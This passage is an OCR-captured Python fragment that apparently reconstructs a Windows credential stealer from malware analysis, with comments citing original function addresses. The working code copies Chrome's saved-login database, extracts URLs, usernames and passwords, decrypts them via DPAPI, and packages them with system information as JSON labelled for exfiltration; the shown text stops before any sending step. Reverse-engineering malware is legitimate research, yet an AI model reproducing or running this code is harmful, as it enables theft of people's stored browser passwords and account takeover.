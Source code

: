 ```python
            print(f"Chrome database not found: {self.chrome_db_path}")
            return []

        # Copy database to avoid Chrome lock (malware did this)
        temp_db = Path(os.getenv('TEMP')) / 'chrome_temp.db'
        import shutil
        shutil.copy2(self.chrome_db_path, temp_db)

        try:
            # Open SQLite database
            conn = sqlite3.connect(temp_db)
            cursor = conn.cursor()

            # Query all login credentials (from static analysis)
            # Original SQL: "SELECT origin_url, username_value, password_value FROM logins"
            cursor.execute("""
                SELECT origin_url, username_value, password_value
                FROM logins
            """)

            for row in cursor.fetchall():
                site, username, encrypted_password = row

                # Decrypt password using Windows DPAPI
                # Original function: decrypt_dpapi() at 0x401800
                try:
                    decrypted_password = win32crypt.CryptUnprotectData(
                        encrypted_password, None, None, None, 0
                    )[1].decode('utf-8')

                    self.credentials.append({
                        'site': site,
                        'username': username,
                        'password': decrypted_password
                    })
                except Exception as e:
                    # Malware silently skipped errors
                    continue

            conn.close()
            return self.credentials

        finally:
            # Cleanup temp database
            temp_db.unlink(missing_ok=True)

    def get_credentials_json(self) -> str:
        """Format credentials as JSON for exfiltration

        Original function: format_credentials_json() at 0x401A00
        """
        return json.dumps({
            'credentials': self.credentials,
            'system_info': self._get_system_info()
        }, indent=2)

    def _get_system_info(self) -> Dict[str, str]:
        """Collect system information

        Original function: collect_system_info() at 0x401B00
        """
        import platform
        import socket
```